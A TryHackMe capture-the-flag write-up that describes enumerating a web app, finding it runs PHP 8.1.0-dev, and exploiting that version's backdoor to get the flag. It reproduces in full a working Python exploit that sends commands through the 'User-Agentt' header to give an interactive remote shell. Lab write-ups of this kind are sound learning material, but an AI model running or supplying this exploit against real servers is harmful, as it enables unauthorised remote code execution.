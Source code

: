 ## Info
- Platform: TryHackMe  

---

## Enumeration
<img width="1919" height="830" alt="Screenshot_2025-09-10_06-34-15" src="https://github.com/user-attachments/assets/43c74208-54e7-4fca-8b76-50665d523637" />

- Most sidebar links (Login, Register, Forgot Password, Charts, Tables) were dummy (`#`).  
- Only `blank.html` and `404.html` worked.

<img width="1919" height="470" alt="Screenshot_2025-09-10_06-46-58" src="https://github.com/user-attachments/assets/aa09a066-303e-42c2-9e56-f9767e0fca13" />

- In the **Network tab**, the server revealed it was running: PHP/8.1.0-dev

---

## Exploitation
- Searched Exploit-DB for *PHP 8.1.0-dev*.  
- Found: [PHP 8.1.0-dev – 'User-Agentt' RCE]([https://www.exploit-db.com/exploits/49446](https://www.exploit-db.com/exploits/49933)).
```bash
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```            
- Opened `nano` and created a new file `agent.py`.  
- Pasted the exploit code inside and saved it.

<img width="698" height="240" alt="Screenshot_2025-09-10_06-53-17" src="https://github.com/user-attachments/assets/8adba7af-ebc3-4104-a75a-28dfb63ff2c9" />

- Executed the script.

---

## Result
<img width="602" height="64" alt="2" src="https://github.com/user-attachments/assets/a01a3a4e-69e6-4ee8-951c-5fd1d382fc42" />

- Flag found: `[FLAG FOUND]`
